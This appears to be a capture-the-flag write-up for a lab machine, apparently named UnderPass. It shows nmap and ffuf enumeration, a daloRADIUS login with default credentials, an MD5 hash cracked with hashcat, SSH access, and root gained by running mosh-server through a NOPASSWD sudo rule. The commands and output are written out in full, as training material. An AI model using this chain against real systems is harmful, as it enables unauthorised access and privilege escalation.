


## Summary
User: Default credentials and weak password reuse\
Root: Sudo Privilege escalation

## Enumeration
Starting with a simple nmap scan, we can identify that ssh and a web service are exposed.

$ nmap -Pn -p- 10.10.11.48 -A -v

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
7294/tcp  filtered unknown
12945/tcp filtered unknown
37517/tcp filtered unknown
39220/tcp filtered unknown
44459/tcp filtered unknown
55246/tcp filtered unknown
55628/tcp filtered unknown
64827/tcp filtered unknown


## User
### Fuzzing
While fuzzing on port 80 with ```ffuf```, we discover the path ```/daloradius/app/operators```.\
Navigating to this endpoint redirects us to a ```Daloradius``` login interface, an ["advanced RADIUS web platform aimed at managing hotspots and general-purpose SP deployments".](https://github.com/lirantal/daloradius)

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/FUZZ
daloradius              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/daloradius/FUZZ
app                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.48/daloradius/app/FUZZ
operators               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 87ms]
<...>

Path: http://10.10.11.48/daloradius/app/operators/login.php


### Default credentials
Using the default credentials ```administrator:radius```, which are easily found on the internet, we gain access to the home page.\
Then, we can navigate to the ```users``` and notice the password for ```svcMosh``` appears to be an MD5 hash. We can use hashcat to recover the password.


$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
<...>
412dd4759978acfcc81deab01b382403:underwaterfriends
<...>

Using those credentials, we gain access to the server as svcMosh using SSH.

$ ssh svcMosh@10.10.11.48
<...>
svcMosh@underpass:~$ pwd
/home/svcMosh
svcMosh@underpass:~$ ls
user.txt


## Root
### Sudo Privilege escalation

```svcMosh``` is allowed to execute mosh-server, [a component of the Mosh remote shell used for interactive SSH-like sessions.](https://mosh.org/)\
Since it can be run with sudo, we can leverage it to obtain a root shell.

svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo /usr/bin/mosh-server
MOSH CONNECT 60002 zl0g6Tbx/KIgOR0jzdQ9wA
<...>

svcMosh@underpass:~$ MOSH_KEY=zl0g6Tbx/KIgOR0jzdQ9wA mosh-client 127.0.0.1 60002

root@underpass:~# pwd
/root
root@underpass:~# ls
root.txt
